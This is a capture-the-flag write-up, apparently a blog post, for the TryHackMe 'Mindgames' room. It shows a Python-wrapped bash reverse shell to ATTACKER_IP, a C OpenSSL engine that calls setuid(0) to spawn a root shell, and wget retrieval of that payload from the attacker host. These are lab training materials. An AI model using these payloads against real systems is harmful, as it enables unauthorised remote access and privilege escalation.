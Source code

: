 ```yaml
---
layout: post
title:  "Mindgames Writeup"
date:   2024-05-23 13:15:45 -0400
categories: tryhackme medium
tags: writeup tryhackme medium CTF
---
```

## Introduction
This is a medium challenge box on
[TryHackMe](https://tryhackme.com/r/room/mindgames){:target="_blank"}{:rel="noopener noreferrer"}

## Enumeration
### Ports
As always, begin with a port scan to see accessible services

```bash
rustscan -a VICTIM_IP -- -A -oA scan -sC
```

![scan1](/images/mindgames/mindgames-scan1.png)

![scan2](/images/mindgames/mindgames-scan2.png)

There are two services running
- 22: SSH
- 80: HTTP

### Web
> What cipher is being used as the input?

Let's visit the web server and start investigating

![homepage](/images/mindgames/mindgames-homepage.png)

So we're given some weird text and a place to run it. 
If you're familiar with ciphers you might already 
recognize what this weird text is, but if not don't 
worry! You can always use 
[this website](https://www.dcode.fr/cipher-identifier){:target="_blank"}{:rel="noopener noreferrer"}
to figure out what cipher is being used.

![identify-cipher](/images/mindgames/mindgames-identify-cipher.png)

So the cipher is called Brainfuck! Let's decode this to see what exactly is being run

![hello-world](/images/mindgames/mindgames-hello-world.png)

This looks like python. To be sure, let's decode the fibonacci example as well.

![fibonacci](/images/mindgames/mindgames-fibonacci.png)

This is definitely python. It looks like this program takes user input, decodes it, and then runs it through python. This sounds exactly like remote code execution

## Initial Foothold
> How can we use python to create a reverse shell?

Here is a very handy 
[reverse shell generator](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}

```python
import os
os.system("/bin/bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'")
```

This essentially executes a bash reverse shell using python. I've found a lot of success with this particular bash payload to the point where I have a macro assigned to it! We can use the same website to encode our python and get our brainfuck ciphertext
I use quite often. If one command doesn't work for you, remember to be persistent and try the other options! This is what I used

![bf-payload](/images/mindgames/mindgames-bf-payload.png)

Let's set up a listener to accept the reverse shell and run it

```bash
nc -lvnp 4444
```

![revshell](/images/mindgames/mindgames-revshell.png)

Success! Since python3 is available we can stabilize our shell with the following

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# ctrl+z
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

We're already the mindgames user so we can immediately read 
`user.txt`

![user-flag](/images/mindgames/mindgames-user-flag.png)

## Root
> Are there any files with interesting permissions or capabilities?

We can get the capabilities of files using this command

```bash
getcap -r / 2>/dev/null
```

![capabilities](/images/mindgames/mindgames-capabilities.png)

`/usr/bin/openssl` has the setuid capability set. 
According to the 
[man pages](https://www.man7.org/linux/man-pages/man2/setuid.2.html){:target="_blank"}{:rel="noopener noreferrer"},
`setuid` is able to set the effective user id of the 
created process. So if we can create a shell, we can 
effectively get root permissions!

Doing a a bit of searching I found 
[this writeup](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/){:target="_blank"}{:rel="noopener noreferrer"}
which gives us instructions to escalate privileges with 
`openssl`

### Exploit Generation
On our machine we'll compile the shared object file the exploit will use. In order to use the openssl engine header in C we'll need to install the proper libraries. On Debian based systems we can run

```bash
sudo apt-get install libssl-dev
```

Then copy this C code to a file named
`openssl-exploit-engine.c`

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Next we'll compile and create a library file with the following

```bash
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```

### Exploit Upload
We need to upload this to the machine. This can be done any number of ways but today we'll use python

```bash
# in the directory with opensssl-exploit-engine.so
python3 -m http.server 80

# on the victim machine
wget http://ATTACKER_IP/openssl-exploit-engine.so
```

### Shell
Now that everything is set up we can get a root shell with the following

```bash
openssl req -engine ./openssl-exploit-engine.so
```

![root-flag](/images/mindgames/mindgames-root-flag.png)

## Recap
Web homepage has a service which decodes brainfuck inputted by the user and executes python on the server.  A python reverse shell is used to gain a foothold into the system.
`openssl` has the setuid capability enabled which escalates our privileges to root.
